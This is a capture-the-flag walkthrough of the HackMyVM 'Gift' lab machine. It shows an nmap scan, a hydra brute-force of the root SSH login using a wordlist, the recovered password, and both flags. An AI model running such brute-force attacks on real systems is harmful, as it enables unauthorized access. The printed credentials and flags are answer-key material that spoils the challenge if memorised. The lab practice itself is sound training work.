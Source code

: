 # Gift (Easy)
>MrMidnight | 15.September.2022

_______________________________________________________________________

### Target IP: 192.168.1.112

## 1. Nmapping

```bash
nmap -sC -sV -oA scans/Nmap/target 192.168.1.112
```

Result is an ssh server and a http server running nginx. The website contains nothing interesting. Just a text saying: "Dont Overthink. Really, Its simple." Doing a directory scan or a subdomain fuzzling, doesnt reveal anything at all. Even a "nikto" scan doesnt reveal anything useful. 

## 2. Bruteforce

Well time like this, calls for bruteforcing the ssh login. Ill bruteforce the root user because there isnt any other known user. You can use different tools to bruteforce it, but I will just use hydra:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.112 ssh
```

After a few moment, it returns with a password:

```
[22][ssh] host: 192.168.1.112   login: root   password: simple
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
```

> user: root
> pass: simple

## 3. Getting da flag
Just ssh into it and get the 2 flags.

## USER-FLAG
>HMVtyr543FG


## ROOT-FLAG
>HMV665sXzDS